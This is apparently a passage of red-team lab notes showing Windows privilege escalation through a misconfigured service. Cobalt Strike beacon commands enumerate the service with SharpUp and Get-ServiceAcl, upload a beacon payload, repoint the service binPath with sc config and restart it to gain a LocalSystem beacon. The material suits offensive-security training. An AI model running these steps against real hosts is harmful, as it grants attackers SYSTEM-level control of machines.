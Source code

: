 This output from SharpUp shows that **Vuln-Service-2** is "modifiable".

```shell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== Modifiable Services ===

  Name             : Vuln-Service-2
  DisplayName      : Vuln-Service-2
  Description      : 
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"
```

Although it doesn't show what exactly are permissions are, so we need to dig a little deeper. [This](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) PowerShell script will print which service rights we have.
```shell
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name Vuln-Service-2 | select -expandproperty Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

We can see that all **Authenticated Users** have **ChangeConfig**, **Start** and **Stop** privileges over this service. We can abuse these weak permissions by changing the binary path of the service - so instead of it running `C:\Program Files\Vuln Services\Service 2.exe`, we can have it run something like `C:\Temp\payload.exe`.
```shell
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\beacon-tcp-svc.exe
beacon> mv beacon-tcp-svc.exe fake-service.exe

beacon> run sc qc Vuln-Service-2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vuln Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Vuln-Service-2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

beacon> run sc config Vuln-Service-2 binPath= C:\Temp\fake-service.exe
[SC] ChangeServiceConfig SUCCESS

beacon> run sc qc Vuln-Service-2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Temp\fake-service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Vuln-Service-2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

beacon> run sc query Vuln-Service-2

SERVICE_NAME: Vuln-Service-2 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc stop Vuln-Service-2
beacon> run sc start Vuln-Service-2
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```


